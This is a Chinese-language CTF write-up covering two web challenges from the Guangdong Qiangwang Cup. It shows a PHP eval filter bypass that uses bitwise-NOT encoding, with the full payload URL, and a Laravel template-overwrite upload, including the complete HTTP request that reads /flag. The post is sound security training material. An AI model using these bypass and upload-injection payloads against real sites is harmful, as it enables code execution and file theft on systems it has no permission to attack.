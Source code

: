 ```yaml
---
title: "广东强网杯两道Web Writeup"
date: 2019-09-12T09:06:02+08:00
draft: false
tags: ['ctf']
categories: ['CTF笔记']
---
```


@level5师傅发在群里的题目，做了两道

<!--more-->

## web4 php

http://119.61.19.212:8082/index.php

```php
<?php
error_reporting(E_ALL^E_NOTICE^E_WARNING);
function GetYourFlag(){
    echo file_get_contents("./flag.php");
}

if(isset($_GET['code'])){
    $code = $_GET['code'];
    //print(strlen($code));
    if(strlen($code)>27){ 
        die("Too Long.");
    }

    if(preg_match('/[a-zA-Z0-9_&^<>"\']+/',$_GET['code'])) {
        die("Not Allowed.");
    }
    @eval($_GET['code']);
}else{
      highlight_file(__FILE__);
}
?>
```

过滤字符数字下划线等等 长度小于等于27 然后调用GetYourFlag()函数即可，可以用`~`按位取反

```php
echo urlencode(~('GetYourFlag'));
```

得到

```php
%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98
```

然后函数需要再取反回来

```php
~(%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98)
```

存到一个变量里，因为过滤，我们用中文来定义变量，我在这用`中`字

```php
echo urlencode('中');	//%E4%B8%AD
```

然后用变量存储我们取反回来的GetYourFlag函数，最后通过变量来调用这个函数

```php
$%E4%B8%AD=~(%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98);$%E4%B8%AD();
```

最后的payload

```
view-source:http://119.61.19.212:8082/index.php?code=$%E4%B8%AD=~(%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98);$%E4%B8%AD();
```

## web5

laravel的代码审计

路由

![20190912093854](https://y4er.com/img/uploads/20190912093854.png)

app/Http/Controllers/UserController.php 注入

![20190912093943](https://y4er.com/img/uploads/20190912093943.png)

![20190912094106](https://y4er.com/img/uploads/20190912094106.png)

密码解不出来，但是在database/factories/UserFactory.php这个工厂函数中给出来了

![20190912095222](https://y4er.com/img/uploads/20190912095222.png)

继续看 app/Http/Controllers/HomeController.php

![20190912094237](https://y4er.com/img/uploads/20190912094237.png)

登录后要从数据库中拿到key，然后才能上传文件，也就是进入`HomeController@uploadss`。传文件的文件名经过一层filecheck()过滤之后移动到视图模板的目录里，清晰了，通过上传覆盖原本的模板然后模板注入读flag。

![20190912094545](https://y4er.com/img/uploads/20190912094545.png)

正好`/resources/views/auth/uploads/`目录有一个`template.blade.php`模板，而路由中也有控制器去渲染这个模板。

![20190912094749](https://y4er.com/img/uploads/20190912094749.png)

![20190912094834](https://y4er.com/img/uploads/20190912094834.png)

构造表单上传之后发现上传filecheck()过滤了很多东西，不能有`php` `<`字样。

首先我们要知道laravel的blade模板是可以自定义php代码的，但是必须是如下格式

```php
@php
    //
@endphp
```

但是过滤了php关键字，没办法，只能去扒一扒blade的文档了，然后发现了自定义模板标签 https://laravel.com/docs/5.8/blade#extending-blade

![20190912095812](https://y4er.com/img/uploads/20190912095812.png)

牛逼，直接@filedata('/flag')就完事了。

```http
POST /home/uploadss/NotAllow6171 HTTP/1.1
Host: 119.61.19.212:8085
Content-Length: 444
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvJNe9ABsnjeKGhDN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Language: zh-CN,zh;q=0.9
Cookie: XSRF-TOKEN=eyJpdiI6IitoWjhwMm1ycmNTWFozSmZTTXJwXC9nPT0iLCJ2YWx1ZSI6IkllczhnNEZodldZbllTN0NmZDErR2I1eXF1bU9mV1wvYklManNuUnQ4YzhJcmlWQ09JVXJPXC9JNHZxVU0xRmdCY0RDbWJHelVwYjQyVjdXQ1FHVlFMMlE9PSIsIm1hYyI6IjNmMGUzZTEwYTA2ZDA2MjJjMDg4OTY5NTI4NDJjNTk2YmQ4N2U4NWYxY2E2ZjU3YWEwNTAwODllMzIyYTU4ZjAifQ%3D%3D; laravel_session=eyJpdiI6InRhRzZmenBJSmFLNHhrb0RlUE5OdVE9PSIsInZhbHVlIjoiZ01qK2JpQURoRHgxbFVrcGc4TE9PK2kycGxSTjlNRzkwK21uVDUxa3UyTW5JYXpIcWJaY2pYbXQwNDc0dklkemNjRmR0aFhZcllmTkRvQXpVUlR3d3c9PSIsIm1hYyI6IjAwMjVkODA3YmY5NDU1Y2U5MDMyMWMwMTI1MTcyMmQ1YTU5NWQzMTE0MGMxMzc0ZWM1NDU4YzQ5MWIyZjI5YTgifQ%3D%3D
Connection: close

------WebKitFormBoundaryvJNe9ABsnjeKGhDN
Content-Disposition: form-data; name="_token"

Z7VZ7FXfNzuzETtQrZ7DeAZCFtbkQl9L8e7ptVin
------WebKitFormBoundaryvJNe9ABsnjeKGhDN
Content-Disposition: form-data; name="files"; filename="template.blade.php"
Content-Type: text/html

@filedata('/flag')
------WebKitFormBoundaryvJNe9ABsnjeKGhDN

Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryvJNe9ABsnjeKGhDN--
```



**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**